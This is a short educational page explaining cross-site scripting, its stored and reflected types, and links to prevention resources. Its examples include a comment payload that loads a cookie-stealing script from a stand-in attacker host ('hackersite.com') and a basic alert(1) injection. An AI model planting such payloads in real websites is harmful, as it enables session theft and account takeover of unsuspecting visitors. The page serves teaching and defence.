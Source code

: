 ```yaml
---
date: 2018-03-20
title: XSS
categories:
  - security
description:
type: Document
set: security
set_order: 2
---
```


## General information

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign
and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the
form of a browser side script, to a different end user. A successful cross site scripting attack can have devastating consequences for an online business’s reputation and its relationship with its clients.

Depending on the severity of the attack, user accounts may be compromised, Trojan horse programs activated and page content modified, misleading users into willingly surrendering their private data. Finally, session cookies could be revealed, enabling a perpetrator to impersonate valid users and abuse their private accounts.

## XSS types

There are 2 types of XSS vulnerabilities:

* Stored
* Reflected

Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user’s browser. The script is embedded into a link, and is only activated once that link is clicked on.

## Basic examples

While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site’s comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.

The attacker adds the following comment: Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.

From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.

Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.

Now let's consider reflected XSS attack example. Imagine that you have input field which allows you to perform search on the site. You input something like <script>alert(1)</script>foo into it and hit enter. On a vulnerable site, that entire parameter will get injected into the error page that pops up, the javascript will execute, and you'll get a popup in addition to the "Resource foo is not found" message. If you can induce somebody else navigate to the same link that you crafted, you can execute arbitrary javascript in their session.

## What's next?

Here are some useful links to expand your knowledge:
* Extended info about how to prevent XSS is listed on [OWASP article](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet);
* General [article](https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html) about XSS attacks with explanation of some mitigation techniques for this vulnerability;
* More practical example listed [here](https://www.thegeekstuff.com/2012/02/xss-attack-examples/?utm_source=tuicool);
* [Free online source](https://alf.nu/alert1) to practise your skills. 
